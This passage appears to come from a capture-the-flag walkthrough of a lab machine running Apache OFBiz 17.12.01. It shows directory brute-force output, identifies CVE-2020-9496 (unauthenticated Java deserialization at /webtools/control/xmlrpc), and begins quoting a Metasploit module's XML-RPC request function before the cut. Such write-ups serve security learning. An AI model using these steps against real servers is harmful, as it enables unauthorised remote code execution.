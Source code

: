     ...[snip]...
    [#####>--------------] - 1m     57791/209993  4m      found:30487   errors:0      
    [#########>----------] - 1m     14093/29999   134/s   https://127.0.0.1:8443
    [#######>------------] - 1m     11006/29999   112/s   https://127.0.0.1:8443/contentimages
    [########>-----------] - 1m     12663/29999   132/s   https://127.0.0.1:8443/accounting
    [#####>--------------] - 1m      8979/29999   112/s   https://127.0.0.1:8443/solr
    [####>---------------] - 1m      7016/29999   105/s   https://127.0.0.1:8443/partymgr
    [#>------------------] - 36s     2184/29999   60/s    https://127.0.0.1:8443/common
    [#>------------------] - 27s     1847/29999   68/s    https://127.0.0.1:8443/marketing
    

I could go back and configure it to just do a depth of 1, but before doing
that, I checked out `/solr`. It turns out any of the pages will redirect to a
login page:

![image-20210423081218311](https://0xdfimages.gitlab.io/img/image-20210423081218311.png)

At the bottom right it says “Powered by Apache OFBiz. Release 17.12.01”.

#### Exploits

Searching for “OFBiz exploit” returns a good number of results. There’s an
interesting password reset CSRF, but that doesn’t seem to apply here. [This
post from Zero Day
Initiative](https://www.zerodayinitiative.com/blog/2020/9/14/cve-2020-9496-rce-
in-apache-ofbiz-xmlrpc-via-deserialization-of-untrusted-data) looks
interesting. It’s a Java deserialization issue at `/webtools/control/xmlrpc`,
and the vulnerability is unauthenticated.

Visiting `https://localhost:8443/webtools/control/xmlrpc` returns a error:

![image-20210423081808874](https://0xdfimages.gitlab.io/img/image-20210423081808874.png)

This is promising, as it shows the endpoint is there and that I didn’t get any
permissions errors, just an error that I didn’t submit the proper request.

The blog post goes into really good detail of exactly where the vulnerability
it, and then concludes with:

> To trigger the vulnerability, an attacker would send an HTTP request
> containing a crafted serialized object in an XML format to the affected
> target. The vulnerability is triggered when the server deserializes the XML
> data.

### Exploit

#### Find POC

A search for “CVE-2020-9496 POC” returns [this Packetstrom
post](https://packetstormsecurity.com/files/161769/Apache-OFBiz-XML-RPC-Java-
Deserialization.html) for a Metasploit module exploiting this vulnerability.
The important part is the `send_request_xmlrpc` function:

    
    
      def send_request_xmlrpc(data)
        # http://xmlrpc.com/
        # https://ws.apache.org/xmlrpc/
        send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, '/webtools/control/xmlrpc'),
          'ctype' => 'text/xml',
          'data' => <<~XML
            <?xml version="1.0"?>
            <methodCall>